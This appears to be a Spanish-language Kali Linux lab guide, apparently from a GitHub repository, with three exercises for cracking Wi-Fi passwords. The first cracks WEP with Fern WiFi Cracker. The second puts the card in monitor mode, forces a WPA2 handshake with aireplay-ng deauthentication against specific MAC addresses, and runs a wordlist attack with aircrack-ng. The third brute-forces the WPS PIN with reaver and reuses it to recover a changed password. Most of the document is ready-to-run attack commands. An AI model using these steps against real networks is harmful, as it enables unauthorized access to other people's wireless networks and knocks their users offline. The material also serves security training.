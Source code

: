## LABORATORIO 1 (FERN WIFI CRACKER)
1. Abrimos **Fern WIFI Cracker** en Kali
2. Seleccionamos la interfaz WLAN0 o tarjeta inalámbrica de la maquina
3. Escaneamos los puntos de acceso
4. Abrimos las redes WEP detectadas
5. Se selecciona la red y en **Attack**
6. Finalmente obtendremos la contraseña en la parte inferior

## LABORATORIO 2 (FUERZA BRUTA)

1. En la terminal Kali ejecutamos **airmon-ng** para ver nuestra interfaz de tarjeta
2. Ahora pondremos nuestra tarjeta en modo monitoreo:  
**airmon-ng start &lt;Interface&gt;**
3. Es probable que nos dé un error debido a más procesos que interfieren por lo que tendremos que terminarlos con **kill &lt;PID&gt;** (ID DEL PROCESO)
4. Comenzaremos el monitoreo: **airodump-ng wlan0mon** (nuestra interfaz)
5. Ahora monitorearemos la red especifica: airodump-ng -w &lt;nombre Archivo&gt; -c &lt;CH de la red&gt; --bssid &lt;BSSID de la red&gt; wlan0mon  
**airodump-ng -w attack1 -c 3 --bssid 5C:E9:31:01:36:DF wlan0mon**
6. Ahora ocupamos un **Handshake** de la red por lo que en otra terminal ejecutaremos: aireplay-ng -0 &lt;paquetesAEnviar&gt; -a &lt;BSSID&gt; -c &lt;STATION&gt; wlan0mon  
    **aireplay-ng -0 10 -a 5C:E9:31:01:36:DF -c D8:1F:12:B4:41:A9 wlan0mon**
7. Y ahora en la anterior terminal deberíamos tener el HANDSHAKE en la parte superior derecha. EJEMPLO:
![RESULTADO DEL HANDSHAKE CORRECTO](../assets/image55.png)
8. Y ahora podemos detener este monitoreo y cerrar la otra terminal
9. Y ahora intentaremos entrar en la red: aircrack-ng -w &lt;ubicacionListaPalabras&gt; -b &lt;SSID&gt; &lt;archivoCapCreadoDelMonitoreoAnterior&gt;  
**aircrack-ng -w /Desktop/wordlist.txt -b 5C:E9:31:01:36:DF /home/rusian/attack1.cap**
10. Comenzará a probar todas las combinaciones de la lista de palabras (wordlist.txt) para encontrar la correcta de la red.

EXTRA

Las redes WPA2 son muy fuertes y no se pueden violar simplemente por ensayo y error como en la WEP por lo que es necesario tener una lista de palabras y dependiendo si esta lista es fuerte podrá ser posible descifrar mejor esta red mientras que si es débil esta lista no será posible por lo que en este caso usamos un ataque de fuerza bruta el cual evalúa todas las palabras de la lista que conseguí para descifrar la contraseña.

El archivo CAP por defecto debería guardarse en nuestra carpeta Home y se crea con el nombre que nosotros antes le asignamos, y aunque al hacer el monitoreo se crean más tipos de archivos con el mismo nombre solo será necesario utilizar en este caso el (.cap)

Este método para estas redes suele ser tardado y no muy fiable de éxito

## LABORATORIO 3 (WPS CRACK)

1. Con el comando **_wash_** y **_reaver_** en la terminal se nos mostraran varias opciones a usar
2. Abrimos el modo monitoreo de nuestra tarjeta de red:  
**_wash -i wlan0mon_**
3. Y para comenzar simplemente ejecutamos:  
**_reaver -i wlan0mon -b &lt;BSSID&gt; -vv_**
4. Y al final podremos obtener el pin WPS

Este método puede durar bastante, ya sea un par de horas o incluso días, pero se nos podrá mostrar el pin WPS y la contraseña WPA2 para podernos conectar a la red, pero si el usuario cambio la contraseña de la red solo debemos cambiar la opción -vv por -p &lt;pinDe8Digitos&gt; el cual ya obtuvimos antes con el escaneo anterior y obtendremos la contraseña WPA2 de nuevo en cuestión de segundos.

**_reaver -i wlan0mon -b &lt;BSSID&gt; -p &lt;pin&gt;_**

## CONFIGURACIONES FINALES EXTRA

Para regresar nuestra tarjeta de red al modo normal hay dos formas:

- Reiniciando la maquina
- Reiniciando los servicios por Terminal
    - **airmon-ng stop wlan0mon**
    - **ifconfig wlan0 up**
    - **service NetworkManager restart**
